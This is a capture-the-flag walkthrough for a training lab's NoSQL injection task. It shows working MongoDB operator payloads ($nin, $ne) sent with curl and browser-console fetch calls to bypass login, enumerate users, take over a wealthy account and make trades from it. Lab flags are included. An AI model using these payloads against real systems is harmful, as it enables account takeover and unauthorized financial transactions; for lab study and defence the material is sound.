- Target URL: `http://web0x01.hbtn/a3/nosql_injection`

*FLAG will only appear after claiming at least 1 `HBTNc`*

---

Useful instructions:
1. Return to the login endpoint where you previously achieved bypass. This time, focus on enumerating different user profiles to find one with a notable account balance.
2. Employ NoSQL injection techniques in the login process to iterate through user accounts. Take note of the structure and feedback from successful bypasses to refine your enumeration process.
3. Upon identifying an account with enough balance, navigate to the cryptocurrency exchange feature within the application. Engage in transactions that will allow you to acquire at least 1 HBTNc coin.
4. Your transactions must be carefully calculated to ensure that the account balance is exchanged for the exact or higher amount of HBTNc coins required.
5. Monitor the application's feedback and responses closely during the exchange process. The acquisition of 1 or more HBTNc coins will trigger the appearance of a \`Flag\`, signifying your triumph in this comprehensive NoSQL injection challenge.

Remember:
- Approach this task with the mindset of a security professional, understanding that the techniques demonstrated are for educational purposes within this simulated environment.
- The skills applied in this task should be used responsibly and ethically in real-world scenarios, adhering to legal and professional standards.


## **Solution**:


Since we already confirmed MongoDB operator injection in `/sign_in`, we can exploit the `$nin` operator to discover accounts systematically.

## Step 1: Authenticate as an arbitrary user

MongoDB's `$nin` means **not in**. For example:

```
{"username":{"$nin":["yosri"]}}
```

This matches any username except `yosri`.

More interestingly:

```
{"username":{"$nin":[]}}
```

An empty exclusion list matches any existing username field.

Combined with the password bypass, this may authenticate us as the first matching user.

Executing this command:

```bash
curl -sS -c /tmp/hbtn-task7.cookies -X POST \
  'http://web0x01.hbtn/api/a3/nosql_injection/sign_in' \
  -H 'Content-Type: application/json' \
  -d '{"username":{"$nin":[]},"password":{"$ne":null}}' | jq .
# {
#   "status": "success",
#   "message": "Congratulations For your Sign in!\nFLAG: 85ce687f6f297f4544dff20a24493751"
# }
```

### How we'll enumerate users

First login

Authenticate with `$nin: []`, then inspect the selected user's profile through `/user_info`.

Second login

Exclude the discovered username using `$nin: ["first_user"]`. MongoDB can then select a different account.

Repeat

Add each discovered username to `$nin` and repeat until no additional accounts match.

This approach depends on the login endpoint accepting `$nin` and revealing the matched account through the authenticated profile.

Once we can enumerate accounts, we'll compare their balances to find one capable of purchasing at least 1 HBTNc.


### Identify which user we logged in as

The login endpoint returns a generic success message, not the authenticated username.

However, we previously discovered this endpoint:

```
GET /api/a3/nosql_injection/user_info
```

Let's use the saved session cookie to retrieve the authenticated user's profile.

Executing this one command:

```bash
curl -sS -b /tmp/hbtn-task7.cookies \
  'http://web0x01.hbtn/api/a3/nosql_injection/user_info' | jq .

# {
#   "status": "success",
#   "message": {
#     "username": "foued",
#     "diff": 6.19,
#     "trend": "up",
#     "wallet": [
#       {
#         "coin": "HBTNc",
#         "diff": "2.78",
#         "trend": "down",
#         "amount": 0.015,
#         "value": "93927.15",
#         "usd_amount": "1408.91"
#       },
#       {
#         "coin": "BTC",
#         "diff": "0.94",
#         "trend": "up",
#         "amount": 0.01,
#         "value": "49614.41",
#         "usd_amount": "496.14"
#       },
#       {
#         "coin": "ETH",
#         "diff": "4.59",
#         "trend": "up",
#         "amount": 0.3,
#         "value": "3050.70",
#         "usd_amount": "915.21"
#       },
#       {
#         "coin": "USD",
#         "diff": "0",
#         "trend": "up",
#         "amount": 1242,
#         "value": 1,
#         "usd_amount": 1242
#       }
#     ],
#     "amount": "4062.26",
#     "earning": [
#       {
#         "name": "HBTNc",
#         "fill": "var(--joy-palette-primary-500)",
#         "value": 34
#       },
#       {
#         "name": "USD",
#         "fill": "var(--joy-palette-primary-500)",
#         "value": 30
#       },
#       {
#         "name": "ETH",
#         "fill": "var(--joy-palette-primary-500)",
#         "value": 22
#       },
#       {
#         "name": "BTC",
#         "fill": "var(--joy-palette-primary-500)",
#         "value": 12
#       }
#     ],
#     "_id": "6adf7a01a45582ab6cd49236"
#   }
# }
```

### What we're doing

- `-b /tmp/hbtn-task7.cookies`: Sends the session cookie saved during the previous login.
- `/user_info`: Requests information about the authenticated account.
- `jq .`: Formats the returned JSON.

We're looking for the username, account balance, and cryptocurrency holdings.

Once we identify the first account, we can use `$nin` to exclude it and attempt to enumerate another account.


We've successfully enumerated our first account: `foued`.

Here's what we found:

| Asset | Holdings | USD value |
| ----- | -------- | --------- |
| HBTNc | 0.015    | $1,408.91 |
| BTC   | 0.01     | $496.14   |
| ETH   | 0.3      | $915.21   |
| USD   | 1,242    | $1,242.00 |
| Total |          | $4,062.26 |

At approximately $93,927 per HBTNc, this account doesn't have enough assets to reach our target of 1 HBTNc.

## Step 3: Enumerate the next user

Now we'll exploit `$nin` to exclude `foued`, authenticate as another account, and retrieve its profile.

Executing this single shell command:

```bash
curl -sS -c /tmp/hbtn-task7.cookies \
  -X POST \
  'http://web0x01.hbtn/api/a3/nosql_injection/sign_in' \
  -H 'Content-Type: application/json' \
  -d '{"username":{"$nin":["foued"]},"password":{"$ne":null}}' \
  | jq -e '.status == "success"' >/dev/null && \
curl -sS -b /tmp/hbtn-task7.cookies \
  'http://web0x01.hbtn/api/a3/nosql_injection/user_info' \
  | jq '.message | {username, amount, wallet}'

# {
#   "username": "abdou",
#   "amount": "3600.12",
#   "wallet": [
#     {
#       "coin": "HBTNc",
#       "diff": "2.78",
#       "trend": "down",
#       "amount": 0.015,
#       "value": "93927.15",
#       "usd_amount": "1408.91"
#     },
#     {
#       "coin": "BTC",
#       "diff": "0.94",
#       "trend": "up",
#       "amount": 0.01,
#       "value": "49614.41",
#       "usd_amount": "496.14"
#     },
#     {
#       "coin": "ETH",
#       "diff": "4.59",
#       "trend": "up",
#       "amount": 0.1,
#       "value": "3050.70",
#       "usd_amount": "305.07"
#     },
#     {
#       "coin": "USD",
#       "diff": "0",
#       "trend": "up",
#       "amount": 1390,
#       "value": 1,
#       "usd_amount": 1390
#     }
#   ]
# }
```

### What changed?

The injection now contains:

```bash
{"username":{"$nin":["foued"]}}
```

This instructs MongoDB to find an account whose username is not `foued`.

The first request authenticates and saves the session. The second retrieves the newly selected account's username and wallet.

We've successfully enumerated a second account: `abdou`.

### Results so far

| Username | Total portfolio value | HBTNc holdings |
| -------- | --------------------- | -------------- |
| `foued`  | $4,062.26             | 0.015          |
| `abdou`  | $3,600.12             | 0.015          |

Both accounts have insufficient funds to reach **1 HBTNc**, currently valued at approximately **$93,927.15** in the lab.

### Enumerate the 3rd, 4th, 5th, ... users until we find the one:

. . .

We've successfully enumerated our seventh user: `john`.

His portfolio is worth $3,524.07, including 0.005 HBTNc. That's insufficient to reach our target of 1 HBTNc.

### Enumeration progress

| Username | Portfolio value | HBTNc holdings |
| -------- | --------------- | -------------- |
| foued    | $4,062.26       | 0.015          |
| abdou    | $3,600.12       | 0.015          |
| maroua   | $4,454.70       | 0.010          |
| yosri    | $4,144.12       | 0.015          |
| ismail   | $3,978.63       | 0.010          |
| dexter   | $4,748.28       | 0.005          |
| john     | $3,524.07       | 0.005          |

### Enumerate the eighth user

We'll add `john` to the `$nin` exclusion list.

Executing the command:

```bash
curl -sS -c /tmp/hbtn-task7.cookies \
  -X POST \
  'http://web0x01.hbtn/api/a3/nosql_injection/sign_in' \
  -H 'Content-Type: application/json' \
  -d '{"username":{"$nin":["foued","abdou","maroua","yosri","ismail","dexter","john"]},"password":{"$ne":null}}' \
  | jq -e '.status == "success"' >/dev/null && \
curl -sS -b /tmp/hbtn-task7.cookies \
  'http://web0x01.hbtn/api/a3/nosql_injection/user_info' \
  | jq '.message | {username, amount, wallet}'
# {
#   "username": "elon-musk",
#   "amount": "144085.32",
#   "wallet": [
#     {
#       "coin": "HBTNc",
#       "diff": "2.78",
#       "trend": "down",
#       "amount": 0.135,
#       "value": "93927.15",
#       "usd_amount": "12680.17"
#     },
#     {
#       "coin": "BTC",
#       "diff": "0.94",
#       "trend": "up",
#       "amount": 0.563,
#       "value": "49614.41",
#       "usd_amount": "27932.91"
#     },
#     {
#       "coin": "ETH",
#       "diff": "4.59",
#       "trend": "up",
#       "amount": 13.2,
#       "value": "3050.70",
#       "usd_amount": "40269.24"
#     },
#     {
#       "coin": "USD",
#       "diff": "0",
#       "trend": "up",
#       "amount": 63203,
#       "value": 1,
#       "usd_amount": 63203
#     }
#   ]
# }
```


We've found the high-balance account we're looking for: **`elon-musk`**.

TOTAL PORTFOLIO VALUE

## $144,085.32

| Asset | Holdings | USD value  |
| ----- | -------- | ---------- |
| HBTNc | 0.135    | $12,680.17 |
| BTC   | 0.563    | $27,932.91 |
| ETH   | 13.2     | $40,269.24 |
| USD   | 63,203   | $63,203.00 |

### Plan the exchange

Our objective is to own at least 1 HBTNc.

- Current holdings: 0.135 HBTNc
- Additional amount required: 0.865 HBTNc
- Approximate purchase cost: $81,246.98
- Available USD: $63,203

We need to convert approximately $18,044 worth of BTC or ETH into USD first, assuming the exchange doesn't support direct swaps. We'll allow some margin for fees.

### Next: Access the exchange as `elon-musk`

The terminal session is already authenticated, but Firefox has a separate session.

Open `http://web0x01.hbtn/a3/nosql_injection` in Firefox, press `F12`, select Console, and execute this single JavaScript command:

```js
fetch('/api/a3/nosql_injection/sign_in', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    username: 'elon-musk',
    password: {$ne: null}
  })
}).then(r => r.json()).then(console.log)
```

This uses the NoSQL injection we discovered earlier to establish an authenticated session in Firefox.

The reason for the last line:

```js
}).then(r => r.json()).then(console.log)
```
Because asking a server for data takes time, fetch runs asynchronously (it doesn't freeze the browser while waiting). It uses things called "Promises", which is what `.then()` is for.

- `.then(r => r.json())`: Once the server replies, take the raw response (`r`) and parse it into JavaScript data using `.json()`.
- `.then(console.log)`: Finally, take that parsed data and print it out to the browser's Developer Console.

The console output:

```json
fetch('/api/a3/nosql_injection/sign_in', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    username: 'elon-musk',
    password: {$ne: null}
  })
}).then(r => r.json()).then(console.log)
Promise { <state>: "pending" }

XHR POST
http://web0x01.hbtn/api/a3/nosql_injection/sign_in
[HTTP/1.1 200 OK 139418ms]


POST
	http://web0x01.hbtn/api/a3/nosql_injection/sign_in
Status
200
OK
VersionHTTP/1.1
Transferred420 B (119 B size)
Referrer Policystrict-origin-when-cross-origin
DNS ResolutionSystem

Object { status: "success", message: "Congratulations For your Sign in!\nFLAG: 85ce687f6f297f4544dff20a24493751" }
```

The `Promise { <state>: "pending" }` message is ok. The request subsequently completed successfully.

Note:
> The flag shown is from Task 6 (bypassing login), not Task 7 (getting 1 HBTNc).


Good! Your browser login request succeeded:

```
{
  "status": "success",
  "message": "Congratulations For your Sign in!\nFLAG: 85ce687f6f297f4544dff20a24493751"
}
```

The `Promise { <state>: "pending" }` message was normal. The request subsequently completed successfully.

The flag shown is from Task 6, not Task 7.


### Verify the browser session

Before using the exchange, let's confirm that Firefox is authenticated as `elon-musk`, not a previous account.

Executing the command in the Firefox Console:

```js
fetch('/api/a3/nosql_injection/user_info')
  .then(r => r.json())
  .then(data => console.log(data.message))
```

Console output:

```json
XHR GET
http://web0x01.hbtn/api/a3/nosql_injection/user_info
[HTTP/1.1 200 OK 73ms]
Object { username: "elon-musk", diff: 6.19, trend: "up", wallet: (4) […], amount: "144085.32", earning: (4) […], _id: "6adf7a01a45582ab6cd4923d" }
```

We've confirmed that Firefox is authenticated as `elon-musk`.


### Discover the cryptocurrency exchange API

We have an account with:

- Total portfolio: $144,085.32
- USD balance: $63,203
- Current HBTNc: 0.135
- Additional HBTNc required: 0.865

Before executing a trade, we need to identify the exchange endpoint and its expected JSON parameters.

We already know the application loads this JavaScript file:

```js
/static/tasks/a3_nosql_injection.js
```

Let's inspect it for API endpoints.

### Enumerating endpoints with this js snippet in the Firefox Console

```js
fetch('/static/tasks/a3_nosql_injection.js')
  .then(r => r.text())
  .then(src => console.log(
    [...new Set(
      src.match(/\/api\/a3\/nosql_injection\/[a-zA-Z0-9_]+/g) || []
    )]
  ))
```

### What are we doing?

This script is used for **reconnaissance** (gathering information).

This code downloads a JavaScript file from the server, reads its source code, searches it for hidden API URLs, removes any duplicates, and prints the unique URLs to the console.

Here is the step-by-step breakdown of how it works:

### 1. Fetching the file as text
```javascript
fetch('/static/tasks/a3_nosql_injection.js')
  .then(r => r.text())
```
* **`fetch(...)`**: Just like before, this reaches out to the server. But instead of an API, it is downloading a static JavaScript file.
* **`.then(r => r.text())`**: In the previous example, we used `.json()` because the server sent back data. Here, we are downloading a code file, so we use `.text()` to read the raw source code of the file as one giant block of text.

### 2. Searching the text (Regular Expressions)
```javascript
src.match(/\/api\/a3\/nosql_injection\/[a-zA-Z0-9_]+/g) || []
```
This is where the real magic happens. `src` is the giant block of text we just downloaded.
* **`.match(...)`**: This function searches a text string for a specific pattern.
* **The RegEx (`\/api...`)**:
  * The slashes `\/` just mean a literal forward slash `/`. So it is looking for the exact text: `/api/a3/nosql_injection/`.
  * **`[a-zA-Z0-9_]+`**: This tells the search, "After that URL, look for one or more characters that are lowercase letters, uppercase letters, numbers, or underscores." (e.g., `sign_in`, `get_users`, `reset_password`).
  * **`g`**: This stands for "global". It tells the search to find **all** matches in the file, not just the first one it sees.
* **`|| []`**: This is a safety net. If `.match()` finds absolutely nothing, it returns `null`. Writing `|| []` means "If you find nothing, give me an empty array instead so the code doesn't crash."

### 3. Removing Duplicates
```javascript
[...new Set( ... )]
```
If the source code mentions the same URL five times, `.match()` will give us an array with 5 identical URLs. We only want to see a list of unique URLs.
* **`new Set(...)`**: `Set` is a special type of collection that **does not allow duplicates**.
* **`[...]` (The Spread Operator)**: A `Set` is great for filtering, but it's not a standard Array. The three dots (`...`) are called the "spread operator". They literally "spread" the unique items out of the `Set` and put them into a clean, standard `[ ]` Array.

### 4. Printing it out
```javascript
.then(src => console.log( ... ))
```
Finally, `console.log` takes that cleaned-up array of unique API endpoints and prints it to the F12 Developer Console.

### Summary
In a cybersecurity challenge, this is a brilliant way to figure out what a website can do. Instead of clicking around the website manually to see what network requests it makes, this script downloads the website's code, scrapes it for any hidden `/api/a3/nosql_injection/...` endpoints, filters out the spam, and gives a neat list of URLs.


Console output:

```json
[
  "/api/a3/nosql_injection/market_values",
  "/api/a3/nosql_injection/user_info",
  "/api/a3/nosql_injection/market_summary",
  "/api/a3/nosql_injection/sign_out",
  "/api/a3/nosql_injection/exchange",
  "/api/a3/nosql_injection/sign_in"
]
```

We've found the endpoint we need:

```json
/api/a3/nosql_injection/exchange
```

Now we need to determine how the exchange endpoint works, specifically the HTTP method and JSON parameters for buying or selling cryptocurrency.

### Inspect the exchange function

by executing this js snippet in the Firefox Console:

```js
fetch('/static/tasks/a3_nosql_injection.js')
  .then(r => r.text())
  .then(src => {
    const target = '/api/a3/nosql_injection/exchange';
    const i = src.indexOf(target);
    console.log(src.slice(Math.max(0, i - 1200), i + 1200));
  });
```

### What are we doing?

This retrieves the JavaScript surrounding the `/exchange` API call (+/- 1200 characters).

We're looking for code resembling something like this:

```js
fetch('/api/a3/nosql_injection/exchange', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    // Exchange parameters
  })
})
```

The actual console output:
```js
:"break-word",wordBreak:"break-word",whiteSpace:"pre-wrap"},variant:"soft",component:"pre",color:"success",endDecorator:Y.jsx(IO,{variant:"soft",size:"sm",color:"success",onClick:()=>h(""),children:Y.jsx(wO,{})}),children:p})]})]}),c.username&&Y.jsxs(ex,{direction:"row",spacing:3,sx:{mt:1,mb:2},children:[Y.jsxs(fx,{level:"h4",sx:{flex:"1 1 auto"},children:["Welcome ",c.username.toUpperCase()]}),Y.jsx(Jb,{variant:"outlined",color:"danger",size:"sm",startDecorator:Y.jsx(Mx,{fontSize:"var(--Icon-fontSize)",weight:"bold"}),onClick:()=>fetch("/api/a3/nosql_injection/sign_out").then(location.reload()),children:"Sign out"})]}),Y.jsxs(Qb,{container:!0,spacing:3,children:[null==(e=c.wallet)?void 0:e.map((e=>Y.jsx(Qb,{lg:3,md:6,xs:12,children:Y.jsx(k0,{wallet:e})},e.coin))),Y.jsx(Qb,{lg:8,md:6,xs:12,children:Y.jsxs(ex,{spacing:3,children:[Y.jsx(N0,{data:n,volume:l}),Y.jsx(l1,{data:a})]})}),Y.jsx(Qb,{lg:4,md:6,xs:12,children:c.username?Y.jsxs(ex,{spacing:3,children:[Y.jsx(c1,{amount:c.amount,diff:c.diff,trend:c.trend,children:Y.jsx(fJ,{data:c.earning})}),Y.jsx(fQ,{user:c,handleExchange:e=>{e.preventDefault(),r(!1);const t=new FormData(e.currentTarget),n=Object.fromEntries(t.entries());fetch("/api/a3/nosql_injection/exchange",{method:"POST",headers:{"content-type":"application/json"},body:JSON.stringify(n)}).then((e=>e.json())).then((e=>{"success"===e.status?(y(""),h(e.message),b()):(y(e.message),r(!0))}))},loaded:!t})]}):Y.jsx(yw,{handleLogin:e=>{e.preventDefault(),r(!1);const t=new FormData(e.currentTarget),n=Object.fromEntries(t.entries());fetch("/api/a3/nosql_injection/sign_in",{method:"POST",headers:{"content-type":"application/json"},body:JSON.stringify(n)}).then((e=>e.json())).then((e=>{"success"===e.status?(y(""),h(e.message),m(!0),b()):(y(e.message),r(!0))}))},loaded:!t})})]})]})]})}J.createRoot(document.getElementById("main")).render(Y.jsx(H.StrictMode,{children:Y.jsx(d1,{})}));
```


The important JavaScript is:

```js
const t = new FormData(e.currentTarget);
const n = Object.fromEntries(t.entries());

fetch("/api/a3/nosql_injection/exchange", {
  method: "POST",
  headers: {"content-type": "application/json"},
  body: JSON.stringify(n)
});
```

### What this tells us

1. The exchange uses POST.
2. Its request body is JSON.
3. The JSON keys come directly from the exchange form's `name` attributes.
4. A successful exchange triggers a refresh of the user's wallet.

We don't need to guess the parameters. We can inspect the form directly.


### Identify the exchange form fields

by executing this js snippet in the Firefox Console:

```js
console.table(
  [...document.querySelectorAll('form')].flatMap((form, i) =>
    [...form.querySelectorAll('input[name], select[name], textarea[name]')]
      .map(el => ({
        form: i,
        parameter: el.name,
        type: el.type || el.tagName,
        options: el.tagName === 'SELECT'
          ? [...el.options].map(o => o.value).join(', ')
          : ''
      }))
  )
);
```

### What we're looking for

By running this in the F12 console on a webpage, it will scan the page for every single form (like login boxes, search bars, or contact forms) and print a beautifully formatted table showing exactly what data those forms are trying to collect.

Here is the step-by-step breakdown of how it works:

### 1. Printing a Table
```javascript
console.table(...)
```
We have already seen `console.log`, which prints raw text or data. `console.table` is a special command that takes an array of objects and draws a neat, readable grid/table in the developer console.

### 2. Finding all the Forms
```javascript
  [...document.querySelectorAll('form')].flatMap((form, i) =>
```
* **`document.querySelectorAll('form')`**: This asks the browser to find every `<form>` element on the current webpage.
* **`[...]` (Spread Operator)**: The browser returns a "NodeList" (which is like an array, but misses some features). Putting it inside `[... ]` converts it into a standard JavaScript array.
* **`.flatMap((form, i) => ...)`**: This loops through every form on the page. `form` represents the current form being checked, and `i` is its index number (0 for the first form, 1 for the second, etc.). It uses `flatMap` because one form can have *many* inputs, and we want to flatten all of them into one single, master list.

### 3. Finding the Inputs inside each Form
```javascript
    [...form.querySelectorAll('input[name], select[name], textarea[name]')]
```
For each form, it does another search. This time, it looks for elements where you can type or select data: `<input>`, `<select>` (dropdowns), and `<textarea>` (large text boxes).
Crucially, the `[name]` part means it *only* grabs inputs that have a **`name`** attribute. The **`name`** is the actual variable name the form sends to the server (e.g., `username`, `email`, `csrf_token`).

### 4. Creating the Columns (Mapping the data)
```javascript
      .map(el => ({
        form: i,
        parameter: el.name,
        type: el.type || el.tagName,
```
For every input element (`el`) it finds, it uses `.map()` to create a JavaScript object. These objects will become the **rows** in the `console.table`, and the properties will be the **columns**:
* **`form: i`**: Which form does this belong to? (Form 0, Form 1, etc.)
* **`parameter: el.name`**: What is the hidden parameter name being sent to the server?
* **`type: el.type || el.tagName`**: What kind of input is it? It will show things like "text", "password", "hidden", or "checkbox".

### 5. Handling Dropdown Menus
```javascript
        options: el.tagName === 'SELECT'
          ? [...el.options].map(o => o.value).join(', ')
          : ''
      }))
```
This part creates the final column, called `options`. It uses a **Ternary Operator** (`condition ? if_true : if_false`), which is just a 1-line `if/else` statement.
* **If the element is a dropdown (`'SELECT'`)**: It grabs every `<option>` inside that dropdown menu, extracts the background `value` of those options, and joins them together into a comma-separated text string (e.g., `"admin, user, guest"`).
* **If it is NOT a dropdown (`: ''`)**: It just leaves the column completely blank.

### Summary
Instead of manually reading the messy HTML source code to find hidden inputs or dropdown values, this script instantly maps out the entire "attack surface" of the page. It gives a clean table of exactly what parameters the server is expecting to receive!


- Console output:

```js
console.table(
  [...document.querySelectorAll('form')].flatMap((form, i) =>
    [...form.querySelectorAll('input[name], select[name], textarea[name]')]
      .map(el => ({
        form: i,…
console.table() debugger eval code:1:9
(index)	form	parameter	type	options
0	0	username	text	<empty string>
1	0	password	password	<empty string>
```


This output tells us something important:
- Firefox is still displaying the user login form, even though we successfully authenticated as `elon-musk`.

### Why?

The application uses React. When we authenticated through the Console using `fetch()`, the server created our session, but React's internal state wasn't updated.

Consequently, the page is still rendering the user login form instead of the cryptocurrency exchange form.


### Refresh the authenticated session

by executing this js command in the Firefox Console:

```
location.reload()
```

After the page reload, React will render Elon Musk's cryptocurrency exchange form, allowing us to proceed with the transaction.




**Note:**
> Now we have the opportunity to simply click through the GUI to get more than 1 HBTNc for Elon Musk's account and get the Flag. \
However for educational purposes, we will demonstrate how to perform the exchange using the API directly from the console.


The screenshot confirms that Firefox is now authenticated as `elon-musk`, and the cryptocurrency exchange form is visible.

We can see the Buy / Sell tabs, the currency selector (`HBTNc`), and the Amount field.

Our target remains:

| Item                    | Amount     |
| ----------------------- | ---------- |
| Current HBTNc           | 0.135      |
| Target HBTNc            | 1.000      |
| Additional HBTNc needed | 0.865      |
| Estimated USD required  | $81,246.98 |
| Available USD           | $63,203.00 |

We'll likely need to sell some ETH or BTC before buying the remaining HBTNc.


### Inspect the exchange parameters

Now that the exchange form is rendered, we're executing again the previous js snippet in the Firefox Console:

```js
console.table(
  [...document.querySelectorAll('form')].flatMap((form, i) =>
    [...form.querySelectorAll('input[name], select[name], textarea[name]')]
      .map(el => ({
        form: i,
        parameter: el.name,
        type: el.type || el.tagName,
        value: el.value,
        options: el.tagName === 'SELECT'
          ? [...el.options].map(o => o.value).join(', ')
          : ''
      }))
  )
);
```

This is read-only. It identifies the parameters that the exchange sends to `/api/a3/nosql_injection/exchange`.

- Console output:

```js
console.table(
  [...document.querySelectorAll('form')].flatMap((form, i) =>
    [...form.querySelectorAll('input[name], select[name], textarea[name]')]
      .map(el => ({
        form: i,…
console.table() debugger eval code:1:9
(index)	form	parameter	type	value	options
0	0	coin	text	HBTNc	<empty string>
1	0	amount	text	1	<empty string>
2	0	action	hidden	Buy	<empty string>
undefined
```


We now have all three parameters required to execute a cryptocurrency exchange.

| Parameter | Description             | Example         |
| --------- | ----------------------- | --------------- |
| `coin`    | Cryptocurrency to trade | `ETH`           |
| `amount`  | Quantity to trade       | `8`             |
| `action`  | Transaction type        | `Buy` or `Sell` |


### Sell ETH to fund our HBTNc purchase

Our `elon-musk` account currently has:

- 13.2 ETH
- $63,203 USD
- 0.135 HBTNc

We'll sell 8 ETH, keeping the remaining 5.2 ETH.

At the displayed ETH price of $3,050.70:

ETH sale proceeds

### $24,405.60

Expected USD balance

### $87,608.60

This would be sufficient to purchase approximately 0.87 HBTNc, taking our holdings above 1 HBTNc, assuming no unusually large fees.

### Sell ETH in the Firefox Console

```js
fetch('/api/a3/nosql_injection/exchange', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    coin: 'ETH',
    amount: '8',
    action: 'Sell'
  })
})
.then(r => r.json())
.then(console.log)
```

After executing this script, the new USD balance will be

### $87,608.60

as predicted.


### Buy 0.87 HBTNc in the Firefox Console

```js
fetch('/api/a3/nosql_injection/exchange', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    coin: 'HBTNc',
    amount: '0.87',
    action: 'Buy'
  })
})
.then(r => r.json())
.then(console.log)
```


The API response confirms:

```json
{
  "status": "success",
  "message": "Successful Exchange: 81716.62049999999 USD => 0.87 HBTNc"
}
```

## Task 7: Current progress

| Item                   | Amount    |
| ---------------------- | --------- |
| Previous HBTNc         | 0.135     |
| Purchased HBTNc        | +0.870    |
| Current HBTNc balance  | 1.005     |
| Required balance       | 1.000     |
| Remaining USD          | $5,891.98 |

We crossed the required threshold.
The Flag appears in the GUI, but hasn't appeared in the console log.


### Verify the wallet and get the Flag in the Firefox Console

Execute this single command in Firefox Console:

```js
fetch('/api/a3/nosql_injection/user_info')
  .then(r => r.json())
  .then(data => console.log(data))
```

- Console output:

```json
fetch('/api/a3/nosql_injection/user_info')
  .then(r => r.json())
  .then(data => console.log(data))
XHR GET
http://web0x01.hbtn/api/a3/nosql_injection/user_info
[HTTP/1.1 200 OK 10258ms]
Promise { <state>: "pending" }

Object { status: "success", message: {…}, flag: "Congratulations For your Exchange!\nFLAG: a62eb367da5d58914bd9aaa074cf3444" }
```

- Verify result:


```bash
echo a62eb367da5d58914bd9aaa074cf3444 > 7-flag.txt
git add .
git commit -m "7-flag.txt"
git push
```
